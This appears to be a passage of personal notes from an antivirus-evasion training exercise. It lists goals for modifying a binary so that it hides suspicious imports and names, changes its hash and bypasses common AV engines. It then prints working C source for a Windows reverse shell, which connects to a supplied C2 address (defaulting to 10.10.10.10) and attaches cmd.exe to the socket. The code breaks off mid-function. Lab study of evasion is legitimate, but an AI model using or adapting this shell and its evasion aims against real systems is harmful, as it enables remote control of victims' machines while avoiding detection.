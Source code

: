 ![](/assets/img/Pasted image 20230116013241.png)

	- I guess in this way, it prevents the huge increase in entropy if you do TWO specific signature breaking consecutively.

- Taking these notes into consideration, modify the provided binary to meet the specifications below.

		1. No suspicious library calls present.
		2. No leaked function or variable names.
		3. File hash is different than the original hash.
		4. Binary bypasses common AV engines.

- **Note**: When considering library calls and leaked function, be conscious of the IAT table and strings in your binary.

```c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

void RunShell(char* C2Server, int C2Port) {
        SOCKET mySocket;
        struct sockaddr_in addr;
        WSADATA version;
        WSAStartup(MAKEWORD(2,2), &version);
        mySocket = WSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0);
        addr.sin_family = AF_INET;

        addr.sin_addr.s_addr = inet_addr(C2Server);
        addr.sin_port = htons(C2Port);

        if (WSAConnect(mySocket, (SOCKADDR*)&addr, sizeof(addr), 0, 0, 0, 0)==SOCKET_ERROR) {
            closesocket(mySocket);
            WSACleanup();
        } else {
            printf("Connected to %s:%d\\n", C2Server, C2Port);

            char Process[] = "cmd.exe";
            STARTUPINFO sinfo;
            PROCESS_INFORMATION pinfo;
            memset(&sinfo, 0, sizeof(sinfo));
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
```